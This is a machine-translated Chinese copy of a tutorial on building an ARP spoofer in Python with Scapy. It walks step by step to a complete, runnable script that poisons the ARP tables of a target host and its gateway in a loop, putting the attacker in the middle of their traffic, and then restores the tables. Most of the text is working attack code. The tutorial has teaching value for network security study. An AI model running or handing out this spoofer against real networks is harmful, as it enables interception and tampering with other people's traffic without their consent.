


# Python–如何使用 Scapy 创建一个 ARP 欺骗器？

> 原文:[https://www . geeksforgeeks . org/python-如何使用-scapy/](https://www.geeksforgeeks.org/python-how-to-create-an-arp-spoofer-using-scapy/) 创建 arp 欺骗器

ARP 欺骗是黑客在网络中发送伪造的 ARP 的恶意攻击。连接网络中的每个节点都有一个 ARP 表，通过这个表我们可以识别连接设备的 IP 地址和 MAC 地址。
什么目的发送一个 ARP 广播找到我们想要的 IP 需要欺骗，然后欺骗网关，以及目标通过更新他们的 ARP 表。这将使目标发送的网络数据包从我们的机器传递到网络网关，从而使 ARP 欺骗成功
要设计一个 python 脚本来创建 ARP 欺骗器，我们需要 Scapy 模块。Scapy 是一个非常强大的包操作工具和库，完全用 python
编写。要安装这个模块，打开你的终端，键入:

```
pip3 install scapy
```

下面演示的代码需要 python 3 才能工作。建议将您的 python 更新到最新版本。
**创建 ARP 欺骗器的步骤:**

1.  获取我们想要欺骗的 IP 地址
2.  获取我们想要欺骗的 IP 的 MAC 地址
3.  然后使用 ARP()函数创建一个欺骗数据包来设置目标 IP，欺骗 IP 和我们在上面找到的 MAC 地址。
4.  开始欺骗
5.  显示发送的数据包数量信息
6.  最后，在欺骗之后，将欺骗地址的 ARP 表重新设置为默认值

Now open your python IDE and import scapy as follows:

```
import scapy.all as scapy
import time
```

现在，我们设计了一个函数，返回我们想要的 IP 地址的 MAC 地址:

```
def get_mac(ip):
    arp_request = scapy.ARP(pdst = ip)
    broadcast = scapy.Ether(dst ="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout = 5, verbose = False)[0]
    return answered_list[0][1].hwsrc
```

在这个函数 get_mac()中，无论输入了什么 IP 地址，都会使用 arp()函数创建一个 arp_request，我们使用 Ether 函数
将广播 mac 地址设置为“ff:ff:ff:ff:ff”，现在我们需要将这些地址加入到一个数据包中，因此我们使用/来完成这个操作。
SRP()函数返回响应数据包和没有响应的两个 IP 地址列表。具有所请求的匹配 IP 地址的 MAC 地址将存储在 **hwsrc** 字段中。我们将这个媒体访问控制地址返回到调用函数的地方。要了解 scapy 提供了哪些字段，还可以运行以下命令:

```
print(scapy.ls(scapy.ARP))
```

您将看到以下可用字段:

现在我们已经创建了一个函数，该函数为我们提供了所需的 MAC 地址，接下来我们将创建如下恶搞()函数:

```
def spoof(target_ip, spoof_ip):
    packet = scapy.ARP(op = 2, pdst = target_ip, 
                     hwdst = get_mac(target_ip), 
                               psrc = spoof_ip)

    scapy.send(packet, verbose = False)
```

该函数采用两个参数，即目标 IP 和欺骗 IP。我们再次使用 ARP()函数设计一个数据包，修改网关和目标的 ARP 表，并使用 send()函数开始欺骗。您可以将 verbose 设置为 False，因为 send 函数显示一些我们不需要的默认信息。你可以调整这个选项来获得更好的理解。
现在我们调用欺骗函数启动 ARP 欺骗:

```
target_ip = "10.0.2.5" # Enter your target IP
gateway_ip = "10.0.2.1" # Enter your gateway's IP
spoof(target_ip, gateway_ip) 
spoof(gateway_ip, target_ip)
```

不幸的是，上面的代码只更新了一次 ARP 表。如果我们不持续更新它们，那么默认情况下，目标的 ARP 表会自动更正为默认值。
因此我们修改了这个代码:

```
target_ip = "10.0.2.5"
gateway_ip = "10.0.2.1"
while True:
        spoof(target_ip, gateway_ip)
```

但是该代码也没有显示发送的数据包数量，因此我们再次修改它:

```
sent_packets_count = 0
while True:
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packets_count = sent_packets_count + 2
        print("\r[*] Packets Sent "+str(sent_packets_count), end ="")
```

上面的代码现在可以像预期的那样正常运行，但是仍然有一些事情没有完成。这包括无限循环，如果我们不给它一个停止的中断，这段代码将继续运行。
因此上述代码可以重写:

```
target_ip = "10.0.2.5"
gateway_ip = "10.0.2.1"

try:
    sent_packets_count = 0
    while True:
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packets_count = sent_packets_count + 2
        print("\r[*] Packets Sent "+str(sent_packets_count), end ="")
        time.sleep(2) # Waits for two seconds
except KeyboardInterrupt:
    print("\nCtrl + C pressed.............Exiting")
```

上面的代码可以完美地运行，并且每当它得到一个键盘中断时就会停止。这段代码几乎是完美的，但是我们仍然没有将 ARP 表重新更新回默认值。因此，我们可以创建一个函数，如下所示:

```
def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op = 2, pdst = destination_ip, 
                             hwdst = destination_mac, 
                psrc = source_ip, hwsrc = source_mac)

    scapy.send(packet, verbose = False)
```

现在我们终于涵盖了所有内容，ARP 欺骗的代码应该如下所示:

```
import scapy.all as scapy
import time

def get_mac(ip):
    arp_request = scapy.ARP(pdst = ip)
    broadcast = scapy.Ether(dst ="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout = 5, verbose = False)[0]
    return answered_list[0][1].hwsrc

def spoof(target_ip, spoof_ip):
    packet = scapy.ARP(op = 2, pdst = target_ip, hwdst = get_mac(target_ip),
                                                            psrc = spoof_ip)
    scapy.send(packet, verbose = False)

def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(op = 2, pdst = destination_ip, hwdst = destination_mac, psrc = source_ip, hwsrc = source_mac)
    scapy.send(packet, verbose = False)

target_ip = "10.0.2.5" # Enter your target IP
gateway_ip = "10.0.2.1" # Enter your gateway's IP

try:
    sent_packets_count = 0
    while True:
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        sent_packets_count = sent_packets_count + 2
        print("\r[*] Packets Sent "+str(sent_packets_count), end ="")
        time.sleep(2) # Waits for two seconds

except KeyboardInterrupt:
    print("\nCtrl + C pressed.............Exiting")
    restore(gateway_ip, target_ip)
    restore(target_ip, gateway_ip)
    print("[+] Arp Spoof Stopped")
```

既然你已经成功设计了代码，那么运行并检查它是否工作的时间到了:

下面是**黑客机** :

下面是**受害机** :

的截图在这里我们可以清楚地看到，受害者网关在 10.0.2.1 的 MAC 地址第二次发生了明显的变化。因此，我们知道我们的 ARP 欺骗代码是成功的。